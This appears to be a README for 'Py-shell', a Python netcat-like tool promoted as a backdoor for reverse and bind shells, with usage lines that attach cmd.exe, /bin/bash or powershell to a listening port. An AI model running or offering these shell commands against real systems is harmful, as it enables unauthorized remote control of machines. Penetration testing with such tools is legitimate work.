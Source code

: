 ## Py-shell - The best python backdoor shell in the world.

We can absolutely sure this is the best PYTHON SHELL in the 
world until now. You try it now.

Python netcat for reverse or bind shell. Py-shell is a custom 
network tool to create backdoor shell (pentesting) and some 
other network purpose like connection testing or remote command 
excution (for who want to help others remotely).

Usage:

**python3 pyshell.py -l -p [PORT] -e [FILENAME]**

**python3 pyshell.py -t [ADDRESS] -p [PORT] -e [FILENAME]**

****
Example usage:


*python3 pyshell.py -l -p 4444*

*python3 pyshell.py -t 127.0.0.1 -p 4444*

*python3 pyshell.py -l  -p 8080 -e cmd.exe*

*python3 pyshell.py -t 127.0.0.1 -p 8080 -e /bin/bash*

*python3 pyshell.py -l -p 5000 -e powershell*



Created by toidihack(hacking at HackerOne and Bugcrowd)
 
